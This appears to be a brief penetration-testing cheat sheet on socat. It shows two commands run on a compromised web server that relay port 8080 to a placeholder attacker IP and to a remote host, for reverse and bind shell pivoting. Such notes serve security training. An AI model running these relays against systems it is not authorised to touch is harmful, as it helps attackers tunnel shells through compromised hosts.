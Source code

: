 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between two independent network channels without needing to use SSH tunneling.
# Reverse Port Forwarding
## Redirecting with a Reverse Shell
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:<ATTACKER-IP>:80
```
##  Redirecting with a Bind Shell
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:<REMOTER-IP>:8443
```